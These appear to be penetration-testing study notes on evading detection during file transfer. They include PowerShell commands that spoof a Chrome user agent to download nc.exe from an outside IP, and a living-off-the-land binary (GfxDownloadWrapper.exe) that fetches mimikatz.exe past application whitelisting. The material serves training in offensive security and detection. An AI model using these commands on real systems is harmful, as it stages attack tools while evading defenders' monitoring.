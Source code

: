 # Detection And Evasion

## File Transfer DaE

**A lot of SIEM (Security Information and Event Management) are checking** `user-agents` **to detect sus traffic.** But `user-agents` are not only used to identify web browsers, but anything acting as HTTP client and connecting to a web server via HTTP can have user agent string (like `cURL`, custom `Python` script or common tools like `sqlmap` and `nmap`). So File transfers could be detected.

### Evasion Techniques

#### Changing User Agent:

1. **Listing out User Agents**

```powershell
PS C:\carnifex17>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

2. **Request with Chrome User Agent**

```powershell
PS C:\carnifex17> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\carnifex17> Invoke-WebRequest http://13.13.13.13/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, but not from using `Living Off the Land` Binaries. As example LOLBIN is the Intel Graphics Driver for Windows 10(GfxDownloadWrapper.exe), which could be used to file transfer

1. **Transferring File with GfxDownloadWrapper.exe**

```powershell
PS C:\carnifex17> GfxDownloadWrapper.exe "http://13.13.13.13/mimikatz.exe" "C:\Temp\nc.exe"
```

***
